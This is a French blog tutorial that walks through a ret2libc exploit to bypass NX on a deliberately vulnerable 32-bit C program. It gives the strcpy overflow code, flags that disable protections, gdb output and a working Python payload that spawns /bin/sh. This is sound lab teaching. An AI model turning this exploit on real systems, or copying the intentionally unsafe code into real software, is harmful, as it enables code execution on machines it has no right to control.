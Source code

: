 ```yaml
---
title: "Bypass NX avec ret2libc sur un binaire x86"
date: "2019-04-01"
description: "Continuons notre série sur les exploitations de binaires avec une technique permettant de passer outre une protection : NX"
categories:
  - "exploit"
  - "tutos"
image: "/medias/articles/bypass-nx-ret2libc-binaire-x86/images.jpeg"
---
```


Continuons notre série sur les exploitations de binaires avec une technique permettant de passer outre une protection : NX

## Etude de la protection

NX, permet de sécuriser certains emplacements mémoire en les rendant non exécutables, par exemple la stack ou encore le heap.  
Dans notre premier exploit, nous avons utilisé la stack pour stocker et exécuter notre shellcode. Cependant, nous contrôlons toujours EIP !

### Mise en place

Pour cet exemple, j’utilise une machine Ubuntu 14.04 à jour. Un serveur SSH ainsi que GDB Peda et Python sont installés sur la machine. J’utiliserais aussi Metasploit directement sur ma machine.
Le code que nous allons exploiter est le suivant :

```
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char\*\* argv) {
  char buffer\[20\];
  strcpy(buffer, argv\[1\]);
  printf("%s\\n",buffer); return 0; }
```

Pour la compilation, nous utiliserons la ligne de commande suivante :

`gcc exploitme.c -o exploitme -fno-stack-protector -m32`

Enfin, nous allons désactiver l’ASLR ( commande à exécuter en root ) :

`sudo echo 0 > /proc/sys/kernel/randomize_va_space`

### Vulnérabilités

Comme [précédemment](https://shoxxdj.fr/articles/exploitation-binaire-x86-sans-protections/), nous remarquons la présence d'un strcpy. Nous pouvons vérifier alors que le programme "crash", lorsqu'un nombre de données trop importantes est envoyé :

![Le programme "crash"](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-12.png)

Nous avons bien un "_Segfault_" A noter que l'affichage s'effectue, ainsi la fonction _printf_ est bien exécutée. Vérifions alors avec gdb :

![](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-2-1024x828.png)

Nous pouvons remarquer que GDB crash à l'adresse de l'instruction _ret._ En s’intéressant au fonctionnement de celle ci, nous pouvons remarquer que _ret_ est un alias pour : _pop eip_. Si vos notions d'assembleurs se retrouvent limités ici, sachez à minima que _pop_ permet de déplacer la valeur stockée en haut de la pile dans le registre passé en argument. Ainsi, _ret_ ou _pop eip_ demandent tout deux le placement de la valeur du registre ESP dans le registre EIP.

### Compilation

Lors de l’étape de mise en place, je vous ai demandé de compiler le code avec un certain nombre d’arguments passés au compilateur :

- \-m32 : Permet de compiler le binaire en 32bits sur une machine 64bits ( nécéssite gcc-multilib).

- \-fno-stack-protector : Permet de désactiver les [protections sur la stack](https://www.rapid7.com/resources/mitigating-buffer-overflow-attacks-with-stack-cookies/)

Comme nous l’indique ces options, seul NX est en place . Cela peut se vérifier avec les commandes _checksec_ et _aslr_ de peda :

![Seul NX est activé](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-3.png)

## Exploitation

A nouveau, notre objectif est d'obtenir un shell /bin/sh depuis ce binaire.

### Trouver EIP

Nous utilisons encore une fois les patterns de metasploit :

```
./pattern\_create.rb -l 3000
./pattern\_offset.rb -l 3000 -q 0x31624130
[*] Exact match at offset 32
```

Nous avons à présent l'adresse d'EIP.

### Préparation de l'exploit

La commande _vmmap_ de Peda permet de connaitre les adresses des sections, ainsi que les droits de ces dernières :

```
gdb-peda$ vmmap Start End Perm Name 0x56555000 0x56556000 r-xp
/home/user/x86\_02/exploitme 0x56556000 0x56557000 r--p
/home/user/x86\_02/exploitme 0x56557000 0x56558000 rw-p
/home/user/x86\_02/exploitme 0x56558000 0x5657a000 rw-p
\[heap\]
0xf7ded000 0xf7fbf000 r-xp /lib32/libc-2.27.so
0xf7fbf000 0xf7fc0000 ---p /lib32/libc-2.27.so
0xf7fc0000 0xf7fc2000 r--p /lib32/libc-2.27.so
0xf7fc2000 0xf7fc3000 rw-p /lib32/libc-2.27.so
0xf7fc3000 0xf7fc6000 rw-p mapped
0xf7fcf000 0xf7fd1000 rw-p mapped
0xf7fd1000 0xf7fd4000 r--p
\[vvar\] 0xf7fd4000 0xf7fd6000 r-xp
\[vdso\] 0xf7fd6000 0xf7ffc000 r-xp /lib32/ld-2.27.so
0xf7ffc000 0xf7ffd000 r--p /lib32/ld-2.27.so
0xf7ffd000 0xf7ffe000 rw-p /lib32/ld-2.27.so
0xfffdd000 0xffffe000 rw-p
\[stack\]
```

Nous constatons bien que la stack est non exécutable, cependant, nous pouvons remarquer la présence de la libc dans le programme. Sans elle, _strcpy_ et _printf_ ne fonctionneraient pas.

La libc embarque un bon nombre de fonctions, parmi elles, _[system.](http://man7.org/linux/man-pages/man3/system.3.html)_ Cette dernière permet l’exécution de commandes systèmes. Comme la majorité des fonctions elle utilise plusieurs arguments :

- Une adresse de retour
- La commande à exécuter

#### Trouver l'adresse de la fonction system

Pour trouver l'adresse de system, nous allons ici utiliser Peda. Il existe cependant d'autres techniques qui seront à utiliser notamment lorsque vous n'avez pas la main sur la machine.

En utilisant la commande _print,_ ou son alias _p_ suivit du nom de la fonction, Peda nous donne l'adresse :

![Adresse de la fonction System](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-4.png)

#### Trouver l'adresse de retour

Les conventions d'appels des fonctions sont telles, qu'une fonction doit intégrer l'adresse de la prochaine instruction à exécuter une fois celle ci terminée. C'est exactement ce qu'il se passe lors du _ret._

Pour cet exploit, nous n'auront pas besoin d'adresse en particulier, mais retenez ce principe il nous servira plus tard.

#### Trouver la chaine "/bin/sh"

Dernière étape de la préparation de notre exploit, trouver la chaine "/bin/sh", qui correspond à la commande qui sera exécutée par _System_. Pour cela, nous allons encore utiliser Peda :

![Adresse de la chaine '/bin/sh'](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-5.png)

Peda nous indique à quel endroit se trouve notre chaine, comme vous pouvez le constater il s'agit d'une adresse de la libc.

### Exploitation dans GDB

Nous avons tout les éléments nécessaires à la création de notre exploit; il faut à présent les enchaîner correctement :

- Tout d'abord, il faut provoquer l'overflow
- Ajouter l’adresse de system
- Ajouter l'adresse de retour
- Ajouter l'adresse de la chaine '_/bin/sh_'

Oui mais ou les ajouter ? Et bien sur la stack. En 32 bits, les arguments des fonctions sont passés directement sur la pile ( contrairement au 64bits ou ils se placent dans des registres) .

![Exploitation dans GDB](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-6-1024x79.png)

### Exploitation hors de GDB

Etant donné qu'il n'a pas d'ASLR, les adresses de la LIBC seront toujours les mêmes :

![Les adresses de la libc sont toujours identiques](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-7.png)

Nous pouvons alors reprendre notre exploit précédant et l'utiliser directement :

```
from subprocess import call
from struct import pack

system=0xf7e60e70
binsh=0xf7f80fcc

payload = "a"\*32
payload += pack('<I',system)
payload += pack('<I',0xdeadbeef)
payload += pack('<I',binsh)

call(\['./exploitme',payload\])
```

![Exploitation hors de GDB](/medias/articles/bypass-nx-ret2libc-binaire-x86/image-8-1024x77.png)

## Conclusion

Nous avons ici réussi à exploiter notre premier binaire compilé avec la protection NX.
Ce qui nous permet également de nous approcher petit à petit des techniques de ROP.
En effet, nous avons ici exploité le binaire à partir de ses mécanismes internes (libc).
